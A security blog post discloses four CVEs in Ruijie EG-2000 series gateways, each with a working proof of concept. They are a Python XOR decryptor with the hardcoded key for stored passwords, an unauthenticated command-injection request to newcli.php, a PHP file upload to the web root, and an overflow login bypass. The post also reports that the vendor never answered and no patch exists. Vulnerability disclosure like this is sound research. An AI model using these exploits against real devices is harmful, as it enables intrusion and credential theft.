 === Content from 0x.mk_57d5639e_20250110_144447.html ===


[双草酸酯的博客](https://0x.mk/ "双草酸酯的博客")

 切换导航

* [首页](https://0x.mk/ "首页")
* [关于](https://0x.mk/?page_id=27 "关于")
* [友情链接](https://0x.mk/?page_id=28 "友情链接")

# Ruijie EG-2000 series multiple vulnerabilities

#### 于2024年7月16日由[**双草酸酯**](https://0x.mk/?author=1)发布

We found multiple vulnerabilities based on EG-2000SE Next Gen Gateway.

## **CVE-2019-16638: User password is stored with symmetric encryption**

CWE-257: Storing Passwords in a Recoverable Format

An issue was found on the Ruijie EG-2000 series gateway. An attacker can easily dump cleartext stored passwords in `/data/config.text` with simple XORs. This was tested on EG-2000SE EG\_RGOS 11.1(1)B1.

PoC:

```
import binascii
KEYTBL = b"*@##Wxf^cOurGer*mArKLe%aIRwolf&^StarRdH#&)####^*$%!!#&)%071177"
pwd_enc = "1044407451471c"
pwd = binascii.unhexlify(pwd_enc[2:])
offset = int(pwd_enc[:2])
result = bytearray()
for i in range(len(pwd)):
    result.append(pwd[i] ^ KEYTBL[i + offset])
print(result)
```
## **CVE-2019-16639: Arbitrary command execution on newcli.php**

CWE-78: Improper Neutralization of Special Elements used in an OS Command (‘OS Command Injection’)

An issue was found on the Ruijie EG-2000 series gateway. There is a newcli.php API interface without access control, which can allow an attacker (who only has web interface access) to use TELNET commands and/or show admin passwords via the mode\_url=exec&command= substring.
This affects EG-2000SE EG\_RGOS 11.9 B11P1.

PoC:

```
POST /newcli.php HTTP/1.1
Cookies: [REDACTED]
Content-Type: application/x-www-form-urlencoded

mode_url=exec&command=show%20webmaster%20users
```
## **CVE-2019-16640: PHP file upload via upload.php**

CWE-434: Unrestricted Upload of File with Dangerous Type

An issue was found in upload.php on the Ruijie EG-2000 series gateway. A parameter passed to the class UploadFile is mishandled (%00 and /var/./html are not checked), which can allow an attacker to upload any file to the gateway.
This affects EG-2000SE EG\_RGOS 11.9 B11P1.

PoC:

```
POST upload.php?c=upload&a=index&fileext=txt&filedir=%2Fvar%2Fhtml&obj=1&_ruijie_upload%5B%5D=1
Cookies: [REDACTED]
Content-Type: multipart/form-data; boundary=---------------------------9051914041544843365972754266
Content-Length: 554

-----------------------------9051914041544843365972754266
Content-Disposition: form-data; name="file"; filename="/var/./html/poc.php"

<?php phpinfo();
-----------------------------9051914041544843365972754266--
```
## **CVE-2019-16641: Buffer overflow on login.php**

CWE-121: Stack-based Buffer Overflow

An issue was found on the Ruijie EG-2000 series gateway. There is a buffer overflow in client.so. Consequently, an attacker can use login.php to login to any account, without providing its password.
This affects EG-2000SE EG\_RGOS 11.1(1)B1.

PoC:

```
POST /login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

username=admin&password=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

For all of the vulnerabilities I found, I have submitted bug report to Ruijie on 10/14/2019, but I didn’t get any response from them. The official patch of these vulnerabilities is not available.

分类： [未分类](https://0x.mk/?cat=1)

---

### 0 条评论

### 发表回复 [取消回复](/?p=239#respond)

![Avatar placeholder](https://0x.mk/wp-content/themes/hestia/assets/img/placeholder.jpg)

您的邮箱地址不会被公开。 必填项已用 \* 标注

   名称 \*
  电子邮件 \*
  网站
 在想些什么？

Δ

搜索：

##### 近期文章

* [Ruijie EG-2000 series multiple vulnerabilities](https://0x.mk/?p=239)
* [CrackProof壳分析（1）](https://0x.mk/?p=220)
* [久违的博客更新](https://0x.mk/?p=209)
* [Unity全自动hook的实现](https://0x.mk/?p=192)
* [自动评教脚本](https://0x.mk/?p=166)
##### 近期评论

* KeRnEl32 发表在《[CrackProof壳分析（1）](https://0x.mk/?p=220#comment-5816)》
* watcherman 发表在《[久违的博客更新](https://0x.mk/?p=209#comment-5573)》
* ZDemon 发表在《[CrackProof壳分析（1）](https://0x.mk/?p=220#comment-5506)》
* DE 发表在《[CrackProof壳分析（1）](https://0x.mk/?p=220#comment-5504)》
* 双草酸酯 发表在《[Unity全自动hook的实现](https://0x.mk/?p=192#comment-5500)》
##### 归档

* [2024 年 7 月](https://0x.mk/?m=202407)
* [2021 年 9 月](https://0x.mk/?m=202109)
* [2021 年 7 月](https://0x.mk/?m=202107)
* [2020 年 3 月](https://0x.mk/?m=202003)
* [2019 年 6 月](https://0x.mk/?m=201906)
* [2019 年 5 月](https://0x.mk/?m=201905)
* [2019 年 4 月](https://0x.mk/?m=201904)
* [2019 年 1 月](https://0x.mk/?m=201901)
* [2018 年 12 月](https://0x.mk/?m=201812)
* [2018 年 8 月](https://0x.mk/?m=201808)
* [2018 年 5 月](https://0x.mk/?m=201805)
* [2017 年 12 月](https://0x.mk/?m=201712)
* [2017 年 11 月](https://0x.mk/?m=201711)
* [2017 年 10 月](https://0x.mk/?m=201710)
* [2017 年 9 月](https://0x.mk/?m=201709)
* [2017 年 6 月](https://0x.mk/?m=201706)
##### 分类

* [lua](https://0x.mk/?cat=9)
* [RFID](https://0x.mk/?cat=3)
* [SIF](https://0x.mk/?cat=8)
* [未分类](https://0x.mk/?cat=1)
* [编译](https://0x.mk/?cat=4)
* [路由器](https://0x.mk/?cat=7)
* [逆向](https://0x.mk/?cat=11)
##### 其他操作

* [登录](https://0x.mk/wp-login.php)
* [条目 feed](https://0x.mk/?feed=rss2)
* [评论 feed](https://0x.mk/?feed=comments-rss2)
* [WordPress.org](https://cn.wordpress.org/)

## 相关文章

###### [未分类](https://0x.mk/?cat=1 "查看未分类中的全部文章")

#### [久违的博客更新](https://0x.mk/?p=209 "久违的博客更新")

·系统滚到了Ubuntu 20.04·Nginx启用了TLS 1.3和 [阅读更多…](https://0x.mk/?p=209)

###### [未分类](https://0x.mk/?cat=1 "查看未分类中的全部文章")

#### [自动评教脚本](https://0x.mk/?p=166 "自动评教脚本")

由于教务系统的沙雕设计，评教十分费劲，每两个按钮点击间隔需要大于1.5 [阅读更多…](https://0x.mk/?p=166)

###### [未分类](https://0x.mk/?cat=1 "查看未分类中的全部文章")

#### [免客户端薅学校正版软件羊毛](https://0x.mk/?p=161 "免客户端薅学校正版软件羊毛")

首先，查询这个网站以获取你要激活的客户端的client key 然后， [阅读更多…](https://0x.mk/?p=161)

* [关于](https://0x.mk/?page_id=27)
* [友情链接](https://0x.mk/?page_id=28)
* [示例页面](https://0x.mk/?page_id=2)
* [网页](https://0x.mk/?page_id=203)

Hestia |由[ThemeIsle](https://themeisle.com)开发


